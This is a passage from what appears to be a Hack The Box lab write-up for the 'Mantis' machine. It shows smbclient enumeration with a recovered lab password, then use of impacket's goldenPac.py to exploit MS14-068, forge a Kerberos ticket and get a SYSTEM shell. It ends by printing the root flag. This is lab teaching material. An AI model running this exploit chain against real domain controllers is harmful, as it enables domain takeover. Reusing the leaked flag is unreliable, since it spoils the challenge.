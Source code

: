 ~~~
To confirm if we can use this credential, we can run smbclient.
{% highlight shell %}
root@kali:~# smbclient -L 10.10.10.52 -U james
Enter WORKGROUP\james's password:  # J@m3s_P@ssW0rd! 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.52 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
{% endhighlight %}

After that, we can use "goldenPac.py" for <a href="https://docs.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-068">MS14-068</a>, which is installed by default on the Kali Linux.<br>
At first, add following lines in "/etc/hosts"
{% highlight shell %}
10.10.10.52 htb.local
10.10.10.52 mantis.htb.local
{% endhighlight %}

Then, execute the script with following way to <a href="https://www.varonis.com/blog/kerberos-how-to-stop-golden-tickets/">forge a "Golden ticket"</a> and execute psexec.<br>
We can achieve an system shell.
{% highlight shell %}
root@kali:~# /usr/share/doc/python-impacket/examples/goldenPac.py htb.local/james@mantis.htb.local
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:  # J@m3s_P@ssW0rd!
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.htb.local.....
[*] Found writable share ADMIN$
[*] Uploading file xcTsamva.exe
[*] Opening SVCManager on mantis.htb.local.....
[*] Creating service qxQT on mantis.htb.local.....
[*] Starting service qxQT.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
{% endhighlight %}

root.txt is in the home directory of Administrator.
{% highlight shell %}
C:\Users\Administrator\Desktop>type root.txt
209dc756ee5c09a9967540fe18d15567
{% endhighlight %}
